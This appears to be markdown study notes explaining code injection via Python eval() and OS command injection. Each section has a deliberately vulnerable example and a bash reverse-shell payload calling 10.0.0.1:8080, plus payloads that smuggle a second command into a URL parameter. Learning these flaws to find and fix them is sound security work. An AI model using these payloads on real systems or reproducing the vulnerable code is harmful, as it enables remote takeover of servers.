 ### what && when
happen when applications allow user input to be confused with executable code, Sometimes this happens unintentionally, when applications pass unsanitized data into executed code like $shellshoke$ cve; other times, this is built into the application as an intentional feature like execute `eval()` 
###### eval example && payload 
```python
#online calculate
def calculate(input): 
	return eval("{}".format(input)) 
result = calculate(user_input.calc) 
print("The result is {}.".format(result))
```
*reverse shell* payload: `"__import__('os').system('bash -i >& /dev/tcp/10.0.0.1/8080 0>&1')"` ,
`GET /calculator?calc="__import__('os').sy"&calc="stem('ls')"`
###### how to test
- By using comments and injecting `/*` random value `/`.
- By injecting a simple concatenation `"."` (where `"` are used to break the syntax and reform it correctly).
- By replacing the parameter you provided by a string concatenation, for example `"."ha"."cker"."` instead of `hacker`.

## command injection
### what && when
occurs when user input is concatenated directly into a system command, Aside from happening in web applications, command injections are also incredibly prevalent in embedded web applications because of their dependency on shell commands and frameworks using wrappers that execute shell commands
###### `system` example and payload
```python
import os 
def download(url): 
	os.system("wget -O- {}".format(url)) 
display(download(user_input.url))
```
*reverse shell* payload: `"google.com; bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"` 
`"google.com$(bash -i >& /dev/tcp/10.0.0.1/8080 0>&1)"` 